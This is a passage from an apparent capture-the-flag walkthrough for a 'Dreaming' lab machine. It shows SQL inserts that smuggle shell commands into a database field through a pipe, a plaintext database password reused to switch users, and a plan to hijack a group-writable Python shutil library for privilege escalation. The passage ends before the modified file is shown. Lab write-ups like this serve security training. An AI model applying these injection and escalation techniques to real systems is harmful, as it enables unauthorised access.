 Bob + Exploring ancient ruins

Carol + Becoming a successful entrepreneur

Dave + Becoming a professional musician

death
```

We can add the following rows into the table and execute commands as "death"

``````
INSERT INTO dreams (dreamer,dream) values ("test","dream | cat /home/death/death_flag.txt");

INSERT INTO dreams (dreamer,dream) values ("test","dream | chmod +rwx /home/death/getDreams.py");
``````

```
cat getDreams.py
import mysql.connector
import subprocess

# MySQL credentials
DB_USER = "death"
DB_PASS = "!mementoMORI666!"
DB_NAME = "library"
```

```
lucien@dreaming:/home/death$ su death 
su death 
Password: !mementoMORI666!
```

## morpheus

```
death@dreaming:/home/morpheus$ cat restore.py
cat restore.py
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
```


In the death home directory we can find a .viminfo. This tells that this user has changed this shutil.py file
```
death@dreaming:~$ cat .viminfo
(...)
# File marks:
'0  297  0  /usr/lib/python3.8/shutil.py
|4,48,297,0,1691452277,"/usr/lib/python3.8/shutil.py"
(...)
```

```
ls -la /usr/lib/python3.8/shutil.py
-rw-rw-r-- 1 root death 51474 Aug  7 23:52 /usr/lib/python3.8/shutil.py
```

Change this file

```
``````